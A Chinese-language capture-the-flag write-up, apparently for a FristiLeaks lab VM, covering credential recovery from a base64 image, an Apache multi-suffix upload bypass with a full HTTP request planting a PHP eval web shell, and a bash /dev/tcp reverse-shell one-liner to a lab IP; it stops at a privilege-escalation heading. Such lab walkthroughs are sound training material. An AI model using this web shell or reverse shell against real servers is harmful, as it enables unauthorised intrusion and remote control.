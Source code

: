 base64转图片

![image-20241108202154667](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241108202154667.png)

`keKkeKKeKKeKkEkkEk`拿到的像是一个密码

`eezeepz`是一个用户

登录成功

然后是一个上传页面，白名单过滤

> Apache HTTPD多后缀解析漏洞
>
> 由于Apache HTTPD支持一个文件拥有多个后缀，并为不同后缀执行不同的指令。所以如果管理员给.`php`后缀增加了处理器
>
> ```
> AddHandler application/x-httpd-php .php
> ```
>
> 那么，在有多个后缀的情况下，只要一个文件含有.php后缀就会被识别成PHP文件，且没必要是最后一个后缀。这个特性就会形成一个可以绕过上传白名单的解析漏洞。
>

```http
POST /fristi/do_upload.php HTTP/1.1
Host: 192.168.56.129
Referer: http://192.168.56.129/fristi/upload.php
Origin: http://192.168.56.129
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryOsy32JrRFP2cnWer
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Cookie: PHPSESSID=7937dtrhtfs2837md4b43n8i01
Content-Length: 334

------WebKitFormBoundaryOsy32JrRFP2cnWer
Content-Disposition: form-data; name="fileToUpload"; filename="1.php.png"
Content-Type: image/png

GIF89a
<?php eval($_POST[1]);?>


------WebKitFormBoundaryOsy32JrRFP2cnWer
Content-Disposition: form-data; name="submit"

Upload Image
------WebKitFormBoundaryOsy32JrRFP2cnWer--
```

拿到webshell

```sh
/bin/sh -i >& /dev/tcp/192.168.56.128/1234 0>&1
```

### 提权
